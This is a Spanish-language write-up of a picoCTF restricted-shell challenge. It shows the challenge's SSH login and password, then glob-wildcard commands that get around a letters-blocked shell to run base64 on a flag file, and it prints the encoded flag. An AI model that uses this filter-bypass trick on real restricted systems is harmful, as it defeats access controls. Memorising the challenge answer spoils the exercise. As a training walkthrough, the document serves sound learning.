The Multiverse is within your grasp! Unfortunately, the server that contains the secrets of the multiverse is in a universe where keyboards only have numbers and (most) symbols.`ssh -p 56770 ctf-player@mimas.picoctf.net`Use password: `6dd28e9b`

## Hint

1. Where can you get some letters?

## Solution

Para esto se va usar los wildcards, mejor conocido como comodines, se usan para representar uno o más caracteres desconocidos de búsqueda, patrones o comandos. 


Es una shell limitada, por lo tanto sólo se pueden usar caracteres alfanuméricos, sin símbolos especiales. 

```

SansAlpha$ ls
SansAlpha: Unknown character detected
SansAlpha$ */*
bash: blargh/flag.txt: Permission denied

SansAlpha$ /*
bash: /bin: Is a directory

SansAlpha$ /*/???
E: Invalid operation /bin/awk

SansAlpha$ /*/????64 */*
/bin/base64: extra operand '/bin/x86_64'
Try '/bin/base64 --help' for more information.

SansAlpha$ /*/???[!_]64 */*
/bin/base64: extra operand 'blargh/flag.txt'
Try '/bin/base64 --help' for more information.

SansAlpha$ /*/???[!_]64 */????.*
cmV0dXJuIDAgcGljb0NURns3aDE1X211MTcxdjNyNTNfMTVfbTRkbjM1NV8xNDUyNTZlY30=


```

1. La shell no deja usar ls directamente. 
2. Se intenta comando para mostrar los archivos dentro de subdirectorios del directorio actual. * = cualquier carpeta y /* cualquier archivo dentro de la carpeta. 
3. Se lista las cosas que están dentro del directorio raiz, y observamos que la carpeta /bin existe. 
4. Después intentamos listando todos los archivos de todos los subdirectorios de }/ que tengan exactamente 3 letras. 
5. Se buscan todos los binarios que tengan alrededor de 7 letras y termine en 64.
6. Encontramos el archivo blargh/flag.txt, pero como el shell interpreta más de un archivo nos indica extra operand. 
7. Encontrando un binario que tenga 6 caracteres y termine en 64, pero excluyendo' _' antes del 64.
8. Dentro de los subdirectorios, como /blargh, sse busca los archivos con 4 caracteres + su extensión. 
9. Nos imprime una cadena en base 64.